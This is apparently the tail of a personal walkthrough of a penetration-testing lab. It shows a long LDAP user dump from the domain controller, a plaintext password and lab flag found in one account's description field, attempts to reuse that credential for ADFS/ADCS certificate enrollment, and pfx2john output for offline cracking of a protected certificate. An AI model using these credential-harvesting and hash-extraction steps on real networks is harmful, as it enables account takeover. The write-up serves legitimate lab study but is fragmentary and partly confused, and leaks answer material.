LDAP        10.9.15.10      389    COREDC           Martha.Depaz                  2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joseph.Parker                 2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Daryl.Edwards                 2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Christopher.Glass             2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kate.Simmons                  2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Andrew.Sebring                2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lowell.Galloway               2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Theresa.Knowles               2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Heather.McDonald              2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Cynthia.Price                 2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Junior.Brown                  2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kevin.Treadwell               2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Turner                   2019-12-31 07:06:47 0                                                                   
LDAP        10.9.15.10      389    COREDC           Antonio.Oneal                 2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gregory.McNemar               2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Wallace.Dover                 2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Mary.Menjivar                 2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           William.Ryan                  2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Courtney.Echevarria           2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Curtis.Scott                  2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Julia.Harvey                  2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lawrence.Pullin               2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Renee.Sells                   2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Frida.Scott                   2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Perez                  2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Shannon.Bailey                2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gale.Meade                    2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Daryl.Keck                    2019-12-31 07:06:48 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ed.Rother                     2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Davis                    2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Miguel.Suda                   2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Amber.Veilleux                2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Richard.Gonzales              2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Shaw                   2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Bruce.Bonner                  2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jean.Currie                   2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kathryn.Middleton             2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Margarita.Dotson              2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Adam.Lester                   2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rachel.Crawford               2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           Timothy.Jorgenson             2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           George.Wirth                  2020-01-09 20:08:53 0       v765#QLm^8 #Cyb3rN3t1C5{Cr3d$_!n_De$cr!pti0ns}              
LDAP        10.9.15.10      389    COREDC           Josh.Holman                   2019-12-31 07:06:49 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Thompson                2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Daniel.Rodriguez              2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.McMillan                2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Mary.Davis                    2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Thompson                2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jessica.Jones                 2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Roberta.Mace                  2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dora.Birkland                 2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Brian.Holloway                2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Guadalupe.Littlejohn          2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Harry.Moore                   2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Nathan.Macmillan              2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Hazel.Allison                 2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sharon.Ward                   2019-12-31 07:06:50 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Alcantar               2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Garcia                  2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Marcelino.Fehr                2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Walters                2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lisa.Wyatt                    2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Michael.Young                 2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joyce.Cary                    2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jessie.Rankins                2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Roy.Bates                     2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Tony.Wilson                   2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jessica.Day                   2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Trena.Sandefur                2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Tanya.Gallaway                2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gloria.Mackey                 2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lonnie.Ver                    2019-12-31 07:06:51 0                                                                   
LDAP        10.9.15.10      389    COREDC           Mary.Haggerty                 2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kathleen.Dixon                2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Robles                   2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Darryl.Gutierrez              2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gregory.Sweeney               2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jeniffer.Schumacher           2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Thomas.Riley                  2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Betty.Simms                   2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Martha.Gatto                  2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sandra.Slattery               2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lee.Cortez                    2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lori.Carpenter                2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Michael.Delgado               2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Tiffany.Dryden                2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Alvarado                 2019-12-31 07:06:52 0                                                                   
LDAP        10.9.15.10      389    COREDC           Renae.Lester                  2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Billy.William                 2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dave.Harding                  2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Anthony.Watts                 2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Steve.Otoole                  2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ghislaine.Cooper              2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Charles.Bennett               2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Linda.Bolds                   2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rebecca.Gough                 2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Victor.Morillo                2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Carrie.Peterson               2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.McManus                  2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Scott.Waggener                2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Paul.Hendrickson              2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Beverly.Perry                 2019-12-31 07:06:53 0                                                                   
LDAP        10.9.15.10      389    COREDC           Bonnie.Gordon                 2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Maile.Noda                    2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gregory.Sanders               2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Arron.Felton                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Leatha.Silva                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Clayton.Coleman               2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Larry.Mendoza                 2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lexie.Wilder                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joseph.Musgrove               2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kathryn.Dalton                2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Pettyjohn               2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Curtis.Seals                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Oneal                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Elmer.Anderson                2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sandra.Lopez                  2019-12-31 07:06:54 0                                                                   
LDAP        10.9.15.10      389    COREDC           Kathy.Murphy                  2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Charlene.Hamrick              2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jennifer.Bennett              2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           William.Blackburn             2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Penelope.Stone                2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Flores                 2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Christi.Cheatham              2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Willard.Vankirk               2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dorothy.Thomason              2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Betty.Massingill              2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Renee.Lopez                   2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Teresa.Bray                   2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rose.Stepp                    2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Thomas.Wilson                 2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Carmen.Plummer                2019-12-31 07:06:55 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sammie.English                2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ashley.Henke                  2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Richard.Johnston              2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Melissa.Burke                 2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Wilma.Goodyear                2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Debra.Wade                    2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Linda.Barrera                 2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sara.Moreno                   2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Bonnie.Parker                 2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Frederick.Santiago            2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Brandon.English               2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Andrew.Doyle                  2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Benjamin.Lee                  2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Mary.Torres                   2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ethel.Head                    2019-12-31 07:06:56 0                                                                   
LDAP        10.9.15.10      389    COREDC           Andrew.Wells                  2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Titus                   2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Frances.Mason                 2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jerry.Baker                   2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Reina.Tolbert                 2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Phillip.Carver                2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Juan.March                    2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           George.Correia                2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ethel.Bui                     2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Marie.Young                   2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Goza                     2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Maria.Gourley                 2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Allison.Reeves                2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Barbara.Martin                2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Howard.Strickland             2019-12-31 07:06:57 0                                                                   
LDAP        10.9.15.10      389    COREDC           Christina.Sibley              2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Merle.Elias                   2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Paula.Pederson                2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rick.Potts                    2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Iona.Braud                    2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Huddleston               2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Fore                   2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rosanne.Waldron               2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Steve.Miranda                 2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Annie.Stevenson               2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Sergio.Degen                  2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Lemons                 2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Steven.Chapman                2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Shawn.Swanigan                2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Betty.Bloom                   2019-12-31 07:06:58 0                                                                   
LDAP        10.9.15.10      389    COREDC           Eugene.Salerno                2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gary.Oneil                    2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Julie.Reyes                   2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jose.Fortner                  2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Danielle.Dale                 2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Alexander.Bradbury            2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Michele.Trahan                2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Barbara.Nielsen               2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Laurie.Hall                   2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gabrielle.Licata              2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Martinez                2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dennis.Fischer                2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Daniel.Naron                  2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Brian.Harting                 2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Welch                  2019-12-31 07:06:59 0                                                                   
LDAP        10.9.15.10      389    COREDC           Thomas.Doherty                2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Virginia.Correa               2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Willie.Brown                  2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Rodger.Allen                  2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Bianca.Ellis                  2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lynda.Ashley                  2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joan.Say                      2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Connie.Leon                   2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joseph.Molinari               2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Graff                   2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gloria.Thomas                 2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dayna.Norwood                 2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Richard.Cormier               2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Donald.McKinney               2019-12-31 07:07:00 0                                                                   
LDAP        10.9.15.10      389    COREDC           Amber.Cullinan                2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jason.Penn                    2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Terry.Lucero                  2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joyce.Dutton                  2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Hawthorne               2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dawn.Chapa                    2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Catherine.Jenkins             2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Surratt                2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jeffrey.Wooten                2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Deborah.Blizzard              2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Fleming                 2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Eddie.Askew                   2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Nancy.Gammon                  2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Ferris                  2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Marlys.Garcia                 2019-12-31 07:07:01 0                                                                   
LDAP        10.9.15.10      389    COREDC           Nancy.McNamee                 2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Jessie.Ash                    2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Casey.Rash                    2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Judith.Harney                 2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Lisa.Brewer                   2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Debra.Weight                  2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ben.Spillman                  2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Cedric.McMillan               2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           John.Meeks                    2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Paul.Peterson                 2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dottie.Croft                  2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dominic.Doyle                 2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Olivia.Taylor                 2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Denise.Wheeler                2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Pierre.Rose                   2019-12-31 07:07:02 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gregory.Barba                 2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Elaina.Powell                 2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Hershel.Landers               2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Robert.Bradley                2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           David.Lauer                   2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Joshua.Tremblay               2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Susan.Rodriguez               2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           James.Norris                  2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Alex.Parrott                  2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Gerald.Lee                    2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Ruth.Robinson                 2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Thomas.Howell                 2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Yolanda.Bartel                2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           Dixie.Wagner                  2019-12-31 07:07:03 0                                                                   
LDAP        10.9.15.10      389    COREDC           svc_tomcat                    2019-12-31 07:07:04 0
```

And dump the picture of the AD:



But since we know it is about the phishing of the email I will wait with this one!

&nbsp;

# Foothold by "Phishing"

Now I will try to add the CEP again but this time by using a valid credentials from the description and use the externaö addresses:





But it fails so I guess we need to use the internal addresses.



But it still fails so i guess I need to import the ADFS certificate first? Seems like we need to add to the trusted authorities?



And now seems okay?



This is the guide we need to follow:



Which means using this:

```
PS C:\temp> CertUtil –AddStore ROOT .\ADFS-Token.cer
ROOT "Trusted Root Certification Authorities"
Signature matches Public Key
Certificate "ADFS Signing - adfs.cyber.local" added to store.
CertUtil: -addstore command completed successfully.
PS C:\temp>
```

I think this command runs as the Computer and not as the Local user store:



To Validate the guide get's us to what we already know:  


But it seems still failing so it is clear that I need to use the external addressess and not the internal one which means I need to use the external IP defined in the comment, which i will upload a windows on a VM.

But here I was wrong I might have been able to do it from DC, just missing the certificate:





But it isn't wroking so it's clear that this need to be done from an exteral machine since the DC can't talk back to the dc! But seems like the port 443 is dead?



But it fails which makes me think there is something wrong with the lab? I will try to change lab and see again



And it works! And now after using the other domain like:

```
core.local\george.wirth
v765#QLm^8
```

it works:



So basically we had to install both the CA certificated of ADFS and CYDC and then add the local DNS to point to the external addresses of mail, Jenkins and the enrollment server.

Now requesting a new certificate we can see that we can choose among a new template type form the ADCS:  


&nbsp;

But seems a failure again?



Seems like this is broken? So I switched back to the labn2 and seems working?



'DAMN! Still unavailable, and what about the us lab? SAME shit.

So now I am wondering if the wildcard I found is the workaround? Seems like It is password protected so I will use pfx2john to convert it!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_cyber_local]
└─# pfx2john WildCard.pfx 
WildCard.pfx:$pfxng$1$20$2000$20$cd8258ec54ac8172d502ff9608e2826fa2726a91$30820e2c3082061906092a864886f70d010701a082060a0482060630820602308205fe060b2a864886f70d010c0a0102a08204f6308204f2301c060a2a864886f70d010c0103300e040875af64fa252a3198020207d0048204d0d6acf705af228acb3ec590d3d49872c97d4e553cd4ca506d829bd7759bce96f14a4732908f0371d2c962d4cace4d02de4aafe802015c3851d078d6ceba94c85e25a205d84240c3ed0b8e0a31ad90d1a7dba9129c36acf50eacd3324ac0a34a4f20fc111c913721bed7c175612b5a8a01301785eeb400480d088ad2f18d5be4359b069802ce637a7420f6bcdf7042aeb7cc3d39c67fee8d0b26d3e68f93ec17848f887f3cc7e4b4a648d25be401805d351fce33a4b95f2cfee9e1daa4a11144e1b7b6b988a8ef39513755576d015914a45e96d9f9733fd823d879e16f4e9d5affabedd1101a03c1d49d7bfa3d760e1ea2a38723298f8daa7bd2453190f71ffbdf38ddfa41c7a037900c259d8e12e0d30de50b7b0de2c7b48c5bb4559ba8344d2b76c8bea5dfc19827d54a52a12e693d8b8198246f1761a2fd081c9823253f64c24050eec4dac5602cb5a234a0932be91a0475da0fb36804a0005809f80dc66d889afcae545e1b69b593733aa00ffd9f9b7643c4dadea11aa54a45281622084d9db7842fad9ab5d3d4d3b059114f10282344fa5e163c695ea731d57db9b2c7317b090f827c6500c6e056b789dfe0f12e6af458e9f1f5b232f67f43684dcc98a8c4581c5ee05a39c4dce9c9dc726f00ca4a38f2eb6d77199acd6791b50ef9fd73c876472eb9693a17f51fe16ca30565fd09a21694692bca1970b5b3cfbd13bd4a78d5fcbf85462ac88a247aae323590e44eda5fbff55ab85e9701992fd0cb55e432f405654bd0bd1b4e2eb5179ba4d0e609f89dc7a2cbea9f6197398ea3fb6882c9a0ca52702f2be928b0f7ca0fcd6e68e6a6d6a028271774e16fd4393e2f8a690068b35b952a3e35ea21701dfa14a96d46738d76f596bef7a513cbe3966882e0a24c9cd70aaa8c27ad44a5de1f58412be27db23485ed43351b56a4bd24d849aeb24b8d0c2321dc652a1fc455da0dd2cbb20b4251db9c215065a51904c9fdf5f4423b9860328af9e279697d88316b108c3268fb76f671f252a3ccb22d4d75cfa768cff88716c2ae04ef9500d3319f9c3e697cde0516a76eeceb7c6206a6054a4f24c6d48071d2ccb118cdef7231565fa1254d59384b01c4183fecaef79db3bb90d70b96e116789cafb0d58aa5571549ec2e6995200a9d478a9194d0a8a4796aa5a45ea4b587bc521f8f6bd00bac399996f3a0628f791d7bf4f4f7ecea506fd0edc8c8f284b0690b33501815db6170488803f69d8bbb3aaa84f4b1f4ad71372f3922c3161a93657d10c03c9633b115c61e586c8f832cd96a44563c44f310486f8771f5b25f13673f125e85582c0e1ca53f61d2e3696effb583e9290a23ae126936e290aeed862e34b9eb46b258763f787d859d7991f87f2888409b44c1b7205a985b3d6ed0c750486d9ee7bed2b6756d9452750febb642abf424f8e979518049704a9b60efe85d6973ace2fba5e55fff7ad8967375e15efef9446139fa2a9cb42d0656042f6a814a3e75975810ba600378969e4fa1f4e193536804feb5ca0fd0140702733bebf58bc8a660e683e658f5f9b0398573ebd91ea939745f0158054c24612545fb9388e03582fa03ec2b22cb465e8b97807a7b478f85e12f5737910adf9c5b6fe77f13d